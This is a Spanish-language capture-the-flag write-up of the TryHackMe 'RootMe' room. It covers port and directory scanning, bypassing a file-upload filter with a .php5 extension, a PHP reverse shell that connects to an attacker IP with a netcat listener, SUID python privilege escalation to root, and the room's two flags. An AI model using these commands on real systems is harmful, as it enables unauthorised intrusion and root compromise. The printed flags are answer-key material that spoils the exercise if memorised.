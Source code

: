 ```yaml
---
icon: flag
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# RootMe TryHackMe

### Escaneo de puertos

```shell
nmap -p- --min-rate 5000 -sV <IP>
```

### Gobuster

```shell
gobuster dir -u http://<IP>/ -w <WORDLIST>
```

Info:

```
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.234.69/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.htpasswd            (Status: 403) [Size: 277]
/.htaccess            (Status: 403) [Size: 277]
/css                  (Status: 301) [Size: 310] [--> http://10.10.234.69/css/]
/js                   (Status: 301) [Size: 309] [--> http://10.10.234.69/js/]
/panel                (Status: 301) [Size: 312] [--> http://10.10.234.69/panel/]
/server-status        (Status: 403) [Size: 277]
/uploads              (Status: 301) [Size: 314] [--> http://10.10.234.69/uploads/]
Progress: 20469 / 20470 (100.00%)
===============================================================
Finished
===============================================================
```

Si nos vamos a `/panel/` encontraremos que se pueden subir cosas, pero no permite subir `.php` que es lo que queremos, por lo que vamos hacer un `ByPass` con la extension...

> File.php

```shell
<?php
$sock=fsockopen("<IP>",<PORT>);$proc=proc_open("sh", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);
?>
```

Si lo subimos asi no nos dejara, pero cambiamos el `.php` por un `.php5` por lo que ya no lo reconoceria como un `.php` normal quedando algo tal que asi...

> File.php5

Una vez subido el archivo nos descubrio un `/uploads/` por lo que estara ahi el archivo, lo ejecutaremos desde ahi...

Estaremos a la escucha antes de darle al archivo...

```shell
nc -lvnp <PORT>
```

Una vez estando dentro de `www-data` vamos a /www/ donde estara la primera flag...

> user.txt (flag1)

```
THM{y0u_g0t_a_sh3ll}
```

Si hacemos el siguiente comando para ver los permisos `SUID` que tenemos...

```shell
find / -type f -perm -4000 -ls 2>/dev/null
```

Vemos que podemos ejecutar `python` como si fuera `root`...

```
266770   3580 -rwsr-sr-x   1 root     root        3665768 Aug  4  2020 /usr/bin/python
```

Por lo que haremos lo siguiente...

```shell
python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```

Una vez hecho esto seremos root...

> root.txt (flag2)

```
THM{pr1v1l3g3_3sc4l4t10n}
```
